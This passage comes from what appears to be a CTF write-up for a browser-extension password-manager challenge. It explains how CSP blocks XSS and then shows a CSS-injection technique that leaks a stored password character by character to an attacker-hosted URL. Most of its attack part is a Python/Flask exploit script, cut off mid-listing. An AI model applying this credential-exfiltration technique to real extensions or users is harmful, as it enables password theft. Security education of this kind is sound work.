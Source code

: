 So, using these, we can change the origin in **background.js** and retrieve the corresponding username and password from our hosted site. But how will we get the flag, considering it's loaded in autofill.html as an iframe?

If we look the into **manifest.json** ,we can find the csp is set as the following : 

```jsx
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'none';",
```

thus, our scheme to weave xss falls apart.

### Css Injection

In **autofill.js,** we can use css injection to leak the **password(flag)** character by character. 

```jsx
    let output = "";
    for (let cred of creds) {
        output += `
        <div class="entry">
        <div data-username="${cred.username}" class="user">${cred.username}</div>
        <div data-password="${cred.password}" class="pass">${cred.password}</div>
        </div><hr>`;
    }
    output = `<div>${output}</div>`;
```

Creating an exploit in such a way that it checks if each character of the flag matches, and then attempts to load the url as background will allow us to retrieve each byte of the flag

## Final Exploit

```python
from flask import Flask
import string

app = Flask(__name__)

url="URL"
flag = "uiuctf{0h_no_th3_pwn1es_4r3_c0mpr0m1sed_f"

def css_payload():
    style = ""
    for c in string.ascii_lowercase+string.digits+"{}_?!@#$%^&*(":
        style += f'[data-username="sigpwny"]~[data-password^="{flag}{c}"]{{background:url({url}/part/{ord(c)});}}'
    return style    

@app.route("/brute")
def brute():

    return str.format("""
<form id=f><input type=text id=u value='demo'><input type=password id=p value='<style>{0}</style>'></form>
<script>
const delay = t => new Promise(r => setTimeout(r, t));
onload = async () => {{
    await delay(1000);
    window.location.assign("https://pwnypass.c.hc.lc/");
    p.dispatchEvent(new Event('change'));
    await delay(18);
    window.stop();
    await delay(300);
    window.location.assign("https://pwnypass.c.hc.lc/");
    f.dispatchEvent(new Event('submit'));
    await delay(18);    
```